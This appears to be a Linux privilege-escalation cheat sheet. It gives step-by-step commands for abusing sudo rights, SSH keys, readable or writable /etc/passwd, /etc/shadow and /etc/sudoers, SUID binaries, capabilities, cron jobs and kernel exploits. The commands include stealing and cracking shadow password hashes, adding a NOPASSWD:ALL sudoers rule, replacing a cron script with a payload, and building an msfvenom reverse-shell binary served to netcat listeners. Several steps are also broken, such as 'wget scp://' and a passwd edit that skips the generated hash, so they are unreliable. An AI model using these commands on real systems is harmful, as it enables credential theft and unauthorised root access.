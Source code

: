 # Linux  Privilege Escalation

### **Exploit SUDO Permissions**

***

Check SUDO permissions:

```bash
sudo -l
```

Identify a binary or command with "NOPASSWD" permission.

Refer to [GTFOBins](https://gtfobins.github.io/) for possible privilege escalation techniques.

### **Exploit SSH Private Key**

***

Find and exploit SSH private key:

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
ls -la /
```

Set up SSH with the private key

```bash
chmod 600 root_key 
ssh -i root_key root@10.10.10.10
```

### **Exploit Readable /etc/passwd and /etc/shadow**

***

**Check Permissions**

```bash
ls -la /etc/passwd 
ls -la /etc/shadow 
cat /etc/passwd 
cat /etc/shadow
```

**Copy Files Locally**

```bash
# Using scp
scp user@remote_server:/etc/passwd /path/to/local/directory
scp user@remote_server:/etc/shadow /path/to/local/directory

# Using wget
wget scp://user@remote_server:/etc/passwd -O /path/to/local/directory/passwd
wget scp://user@remote_server:/etc/shadow -O /path/to/local/directory/shadow
```

**Unshadow Passwords**

```bash
unshadow /path/to/local/directory/passwd /path/to/local/directory/shadow > /path/to/local/directory/unshadowed.txt
```

**Crack Password Hashes**

```bash
hashcat -m [hash_type] -a 0 /path/to/local/directory/unshadowed.txt /path/to/wordlist.txt
```

### **Exploit Writable /etc/passwd**

***

Check permissions:

```bash
ls -lah /etc/passwd
```

Add a user with root privileges.

```bash
# Add a new user
sudo useradd -m -G sudo newuser

# Set a password for the new user
sudo passwd newuser
```

Create a password hash and update /etc/passwd.

```bash
# Generate a password hash (replace 'your_password' with the actual password)
openssl passwd -1 your_password
```

Copy the generated hash.

Next, edit the **`/etc/passwd`** file to update the user's password hash

```bash
newuser:x:1001:1001::/home/newuser:/bin/bash
```

Switch to the created user.

```bash
su newuser
```

### **Exploit Writable /etc/shadow**

***

Check writable permissions:

```bash
ls -l /etc/shadow
```

Generate a new password hash and update /etc/shadow.

```bash
openssl passwd -1
```

Update /etc/shadow

```bash
sudo nano /etc/shadow
```

Locate the entry for the user you want to update, replace the old password hash with the new one, and save the file.

### **Exploit Writable /etc/sudoers**

***

Check writable permissions:

```bash
ls -l /etc/sudoers
```

Use SUDO without a password by modifying the sudoers file.

```bash
sudo visudo
```

This will open the **`sudoers`** file in a text editor. Add the following line to permit a specific user (replace **`username`** with the actual username) to run any command without a password prompt.

```bash
username ALL=(ALL:ALL) NOPASSWD:ALL
```

For a specific group (replace **`groupname`** with the actual group name)

```bash
%groupname ALL=(ALL:ALL) NOPASSWD:ALL
```

### **Exploit SUID/SGID**

***

Find SUID binaries:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Search for exploits on [GTFOBins](https://gtfobins.github.io/).

### **Exploit Capabilities**

***

Find files with capabilities:

```bash
getcap -r / 2>/dev/null
```

Refer to [GTFOBins](https://gtfobins.github.io/) for exploit ideas.

### **Exploit CronJob File Permissions**

***

View the contents of cron jobs:

```bash
cat /etc/crontab
```

Locate the full path of the target script.

```bash
cat /etc/crontab | grep "/your_script_name.sh"
```

Check writable permissions.

```bash
ls -l /path/to/your_script_name.sh
```

Replace the script with a malicious payload.

```bash
echo -e "malicious_payload_here" > /path/to/your_script_name.sh
```

Set up a Netcat listener.

```bash
nc -l -p your_port_number -vvv
```

### **Exploit Kernel**

***

Run a kernel exploitation script or check the kernel version.

```bash
uname -r
```

Search for exploits using `searchsploit` or online resources.

Compile and execute any applicable code.

### **Exploit CronJob Wildcard**

***

View the contents of the cron job script.

```bash
cat /path/to/cronjob/script
```

Exploit a command execution vulnerability, possibly using GTFOBins techniques.

Generate a reverse shell binary.

```bash
msfvenom -p [payload] LHOST=[your IP] LPORT=[your port] -f elf -o reverse_shell
```

Transfer the binary and make it executable.

```bash
chmod +x reverse_shell
```

Create the necessary files to trigger the exploit.

Set up a Netcat listener.

```bash
nc -lvnp [your listening port]
```
